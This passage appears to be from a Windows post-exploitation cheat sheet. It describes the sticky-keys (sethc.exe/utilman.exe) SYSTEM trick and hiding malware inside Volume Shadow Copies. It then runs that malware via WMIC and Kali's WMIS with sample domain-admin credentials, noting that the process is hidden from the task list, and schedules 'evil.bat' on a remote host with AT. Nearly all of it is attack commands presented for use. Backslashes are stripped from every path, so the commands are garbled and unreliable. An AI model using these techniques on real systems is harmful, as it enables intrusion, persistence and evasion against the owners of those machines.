     %WINDIR%System32sethc.exe
    %WINDIR%System32utilman.exe

Hit shift 5 times = sethc.exe run by SYSTEM  
Windows key + U = utilman.exe run by SYSTEM

#### Volume Shadow Copy (Restore Points)

Windows service that's constantly running – takes snapshots of system directories

Drop Malware -> Create VSC (ReadOnly) -> Delete Malware -> Use WMIC to run VSC of malware

Registry Key to Disable Volume Shadow Copy

    HKLMSystemCurrentControlSetControlBackupRestoreFilesNotToSnapshot

#### VSSADMIN – native windows utility

vssadmin create command only applies to Server OS (Win2k3,2008)

    vssadmin list shadows
    vssadmin create shadow /for=C:
    wmic /node:DC1 /user:DOMAINdomainadminsvc /password:domainadminsvc123 process call create "cmd /c vssadmin create shadow /for=C
    mklink /D C:VscAccess \?GLOBALROOTDeviceHardDiskVolumeShadowCopy1
    copy \?GLOBALROOTDeviceHardDiskVolumeShadowCopy4pathtosomefile e:files

#### Use WMIC process call to run an .exe from a Volume Shadow Copy

    wmic process call create \.GLOBALROOTDeviceHarddiskVolumeShadowCopy1windowssystem32evil.exe

This process will not show the imagename (executable filename) or commandline parameters in the task list.  
The file cannot be individually deleted from the shadow copy once created. The entire shadow copy must be deleted to remove it.

    root@kali:~# wmis -U DOMAINdomainadminsvc%domainadminsvc123 //ServerName \?GLOBALROOTDeviceHarddiskVolumeShadowCopy1Windowssystem32evil.exe
    NTSTATUS: NT_STATUS_OK - Success

In Kali Linux you could use the WMIS package to do the same thing:

    wmis -U DOMAINdomainadminsvc%domainadminsvc123 //ServerName \?GLOBALROOTDeviceHarddiskVolumeShadowCopy1Windowssystem32evil.exe
    NTSTATUS: NT_STATUS_OK - Success

### Task Scheduling

#### AT

Executes as system and must be an Admin to run it. Check groups with whoami /groups

    at 13:20 /interactive cmd

    net user 	arget /user:Domainuser pass
    net time 	arget
    at 	arget 13:20 c:tempevil.bat
